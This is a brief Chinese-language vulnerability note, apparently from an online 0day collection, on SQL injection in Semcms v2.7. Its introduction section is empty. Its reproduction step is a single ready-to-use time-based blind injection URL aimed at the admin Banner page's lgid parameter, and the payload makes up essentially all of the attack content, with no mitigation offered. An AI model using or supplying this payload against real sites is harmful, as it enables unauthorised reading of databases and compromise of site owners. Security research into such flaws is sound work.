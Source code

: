 # Semcms v2.7 sql 注入漏洞

> 原文：[http://book.iwonder.run/0day/Semcms/Semcms v2.7.html](http://book.iwonder.run/0day/Semcms/Semcms v2.7.html)

## 一、漏洞简介

## 二、漏洞影响

Semcms v2.7

## 三、复现过程

```
http://0-sec.org/semcms/sbifr_Admin/SEMCMS_Banner.php?err=001&lgid=1 and if(length(database()>0),sleep(10),1) --+ 
```

